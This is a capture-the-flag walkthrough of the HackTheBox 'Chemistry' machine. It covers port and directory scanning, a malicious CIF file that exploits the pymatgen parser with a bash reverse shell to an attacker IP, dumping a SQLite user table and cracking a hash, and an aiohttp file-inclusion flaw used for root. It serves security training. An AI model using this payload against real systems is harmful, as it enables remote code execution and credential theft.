



HTB: Chemistry
Table of Contents
Introduction
Today’s machine is Chemistry, and we’re back on track:
echo -e "IP=10.129.229.142\nmachine=~/Chemistry" | tee -a ~/.zshrc && source ~/.zshrc && mkdir $machine && tmux
Recon
Nmap
mkdir -p "$machine/nmap"; nmap -sV -Pn -sC -oA "$machine/nmap/initial" $IP; sleep 10; nmap -p- $IP -oA "$machine/nmap/fullports" # If ports found something extra: nmap -p$ports -sC -sV $IP
Nmap Findings
[ ]Number of open ports: 2- 22, 5000
[ ]Number of filtered ports: 998[ ]Target OS: Linux[ ]Service running on each port:- 22: ssh: OpenSSH 8.2p1
- 5000: upnp? (HTTP server)
- I see Werkzeug/3.0.3
[ ]Check for readily available exploits- nothing obvious
Web
10.129.229.142, port 5000
We see that this website is a tool called “Chemistry CIF Analyzer”, allowing us to update a file and the backend should analyze the structural data within
http://10.129.229.142:5000

Figure 1: Homepage
[ ]Check Wappalyzer output- does not give absolutely anything
[ ]Check for CMS being used/other obvious software[ ]See the source code for leaking information[ ]Open burp suite and crawl a little bit
User enumeration through register
- If we try to register ad
adminwe see that an account with that username already exists
Gobuster Directory Scanning
Off now to check with gobuster:
domain=10.129.229.142:5000; gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://$domain -o $machine/$domain.gobuster.big
- Gobuster Findings
/dashboard (Status: 302) [Size: 235] [--> /login?next=%2Fdashboard] /login (Status: 200) [Size: 926] /logout (Status: 302) [Size: 229] [--> /login?next=%2Flogout] /register (Status: 200) [Size: 931] /upload (Status: 405) [Size: 153]
Dashboard and file structure

Figure 2: Dashboard
Ok so cif files are plain-text files, and as seen here, if we suppose that the backend is pymatgen we can get it to execute python code. I changed it just a little bit to see if we would get a pingback, however it did not work:
data_5yOhtAoR
_audit_creation_date 2018-06-08
_audit_creation_method "Pymatgen CIF Parser Arbitrary Code Execution Exploit"
loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]
_space_group_magn.transform_BNS_Pp_abc 'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'bash -i >& /dev/tcp/10.10.14.29/8000 0>&1\'");0,0,0'
_space_group_magn.number_BNS 62.448
_space_group_magn.name_BNS "P n' m a' "
Instead what we got was “Internal Server Error”. I then tested again to see what we get under normal execution:

Figure 3: Normal execution
At some point, I got a callback! I just had to insert the crucial part of the payload right after the example file.
Reverse as app:
export TERM=xterm; SHELL=/bin/bash script -q /dev/null
- not strange suid files
- no strange groups
- no interesting cronjobs
- checking out the files in local directory:
- there is a database
instance/database.db, which I copied to my localhost to check it out
- there is a database
The database
- sqlite 3 database
- after running our client we can see that:
- there is a table called
user, with- ids, username and passwords
- we can get a lot of credentials this way, but the ones we probably care for are: admin, (app) and rosa
The rosa hash is easily breakable through hashcat
Shell as rosa:
First things first, we get the user.txt flag.
- We can not run sudo
- but strangely we get “sudoasadminsuccessful”
- We are not part of any other groups
- Can’t see exceptional suid files
- Nor any ordinary files
- BUT
ss -tulnp(I always forget to check ports), and we see that there is a service on 8080
To get port forwarding natively while we still have our ssh cli:
ssh rosa@$IP -o EnableEscapeCommandline=yes
Web 2.0

Figure 4: Site Monitoring dashboard
We see that this page is an ad service or something like that.
http://localhost:8081
Through the List Services functionality we can see that in all
probability we will be able to (re)start a service to get privesc?
- Said functionality seem to not be working
We need to exploit this website as well
We see that the website uses aiohttp, and a version vulnerable to file inclusion (3.9.1)
Gobuster Directory Scanning
Off now to check with gobuster:
domain=localhost:8081; gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://$domain -o 8081.gobuster.big
/assets (Status: 403) [Size: 14]
File Inclusion
Using the exploit here we can get access to practically every file on the target system. I did not bother getting access (though, for the sake of practice, I did get a shell by retrieving the ssh key): we can just get root.txt